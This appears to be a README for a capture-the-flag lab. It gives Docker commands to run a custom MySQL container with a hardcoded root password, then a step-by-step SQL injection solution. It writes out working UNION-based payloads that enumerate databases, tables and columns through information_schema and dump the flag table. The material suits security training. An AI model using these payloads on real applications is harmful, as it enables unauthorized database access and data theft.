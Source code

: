 ## Build the image

go to the mysql directory and run:

```docker build -t mysqlcustom .```

## run the container:

```docker run --rm -it -e MYSQL_ROOT_PASSWORD=shoshohN3Eishah8aegae4phiomoot7u -e MYSQL_DATABASE=flask -p 127.0.0.1:3306:3306 --name mysqlcustom mysqlcustom```

## exploit sqli

one possibility to get the flag (as of now):

possible injection to display all products:

 ```%' or 'a'='a'; #```

how to get database names:

```%' or 'a'='a' union select group_concat(schema_name) from information_schema.schemata; #```

how to get table names:

```%' or 'a'='a' union select group_concat(table_name) from information_schema.tables where table_schema='flask'; #```

get column names of table 'flag':

``` %' or 'a'='a' union select group_concat(column_name) from information_schema.columns where table_name='flag'; #```

get flag itself:

```%' or 'a'='a' union select group_concat(flag) from flask.flag; #```